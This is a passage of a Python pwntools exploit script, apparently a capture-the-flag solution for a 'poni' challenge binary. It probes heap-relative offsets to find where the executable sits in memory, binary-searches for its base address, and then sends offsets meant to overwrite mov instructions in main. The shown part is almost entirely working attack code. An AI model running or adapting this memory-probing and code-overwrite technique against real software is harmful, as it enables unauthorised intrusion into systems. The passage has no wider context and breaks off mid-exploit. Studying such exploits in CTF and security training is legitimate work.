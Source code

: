 ```python
    return io


def main():
    io = conn()
    p = log.progress("loading")
    # Skip all the printed ponis.
    io.recvuntil(b"!!!\nponi")
    p.success("intro finished")

    # Size of the first allocation done internally by glibc.
    first_alloc_offset = 0x1860
    i = 1
    # Size of our executable.
    bin_size = 0xb1000
    # Offset to the beginning of the heap.
    heap_base = -first_alloc_offset

    # Search where the binary is in memory.
    # We do it in multiples of bin_size so it's not that hard to
    # find it.
    p = log.progress("searching for binary")
    while True:
        offset = heap_base - i*bin_size
        p.status(f"trying {i=} {offset=}")
        io.sendline(f"{offset}".encode())
        
        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            break
        
        heap_base -= 0x20 # malloc chunk size
        i += 1
    p.success(f"binary was found at offset {offset}")

    # Binary search for the base of the binary.
    l = offset - heap_base
    r = l + bin_size
    p = log.progress("searching for binary base")
    while l <= r:
        m = (l+r) // 2
        p.status(f"trying {l=} {r=} {m=}")
        io.sendline(f"{m}".encode())

        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            l = m+1
        else:
            r = m-1
        l -= 0x20
        r -= 0x20
    bin_base_offset = m - bin_size
    p.success(f"binary base found at {hex(bin_base_offset)=}")

    # Overwrite the mov instructions.
    bin_base_offset -= 0x20
    read_movl_offset = exe.sym['main']+3670+3 - exe.address
    io.sendline(f"{bin_base_offset+read_movl_offset}".encode())

    bin_base_offset -= 0x20
    write_movq_offset = exe.sym['main']+3627+4 - exe.address
    io.sendline(f"{bin_base_offset+write_movq_offset}".encode())

```